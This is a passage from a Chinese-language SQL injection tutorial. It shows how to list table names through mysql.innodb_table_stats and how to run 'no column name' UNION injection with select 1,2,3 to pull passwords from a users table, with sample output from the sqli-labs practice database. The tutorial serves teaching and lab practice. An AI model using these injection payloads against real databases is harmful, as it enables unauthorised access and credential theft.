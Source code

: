 - mysql.innodb_table_stats
- mysql.innodb_table_index

以上大部分特殊数据库都是在 mysql5.7 以后的版本才有，并且要访问sys数据库需要有相应的权限。

但是在使用上面的后两个表来获取表名之后`select group_concat(table_name) from mysql.innodb_table_stats`，我们是没有办法获得列的，这个时候就要采用无列名注入的办法。

#### 无列名注入

##### 123法

我们可以利用一些查询上的技巧来进行无列名、表名的注入。

在我们直接`select 1,2,3`时，会创建一个虚拟的表

```sql
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
1 row in set (0.00 sec)
```

如图所见列名会被定义为1，2，3

当我们结合了union联合查询之后

```sql
mysql> select 1,2,3 union select * from users;
+----+----------+------------+
| 1  | 2        | 3          |
+----+----------+------------+
|  1 | 2        | 3          |
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | jiamu      |
+----+----------+------------+
14 rows in set (0.00 sec)
```

如图，我们的列名被替换为了对应的数字。也就是说，我们可以继续数字来对应列，如 3 对应了表里面的 password，进而我们就可以构造这样的查询语句来查询password：

```sql
select `3` from (select 1,2,3 union select * from users)a;
```
